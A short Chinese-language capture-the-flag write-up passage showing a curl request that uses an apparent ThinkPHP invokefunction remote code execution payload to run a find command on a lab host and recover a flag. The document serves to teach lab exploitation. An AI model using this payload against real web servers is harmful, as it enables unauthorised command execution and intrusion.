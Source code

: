![1748021233259](image/第一层两靶标攻击与利用检测/1748021233259.png)

这里直接看并没有明显叫做 "flag" 或类似的文件。app 和 var 目录是常见的Web应用相关目录，但根目录下没有直接的 flag 文件

2. 搜索名为 "flag" (不区分大小写) 的文件：
   我们可以使用 find 命令在整个文件系统中搜索包含 "flag" 字符串的文件名。这可能会产生很多输出，但 flag 可能就在其中。
   find / -name '*flag*' (搜索文件名中包含 "flag" 的文件，不区分大小写可以使用 -iname)
   考虑到输出可能很长，直接在 curl 中显示可能不方便，但我们可以先尝试。
   需要对 find 命令中的 / 和 * 进行 URL 编码：/ 编码为 %2F，* 编码为 %2A。

```bash
    curl 'http://10.37.133.3:39365/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars%5B0%5D=system&vars%5B1%5D%5B%5D=find%20%2F%20-name%20%27%2Aflag%2A%27'
```

![1748021332621](image/第一层两靶标攻击与利用检测/1748021332621.png)

find 命令成功执行,找到了flag!

 `flag-{bmh8b59ed0c-3042-499e-9a2d-ef93c0e1ec87}`
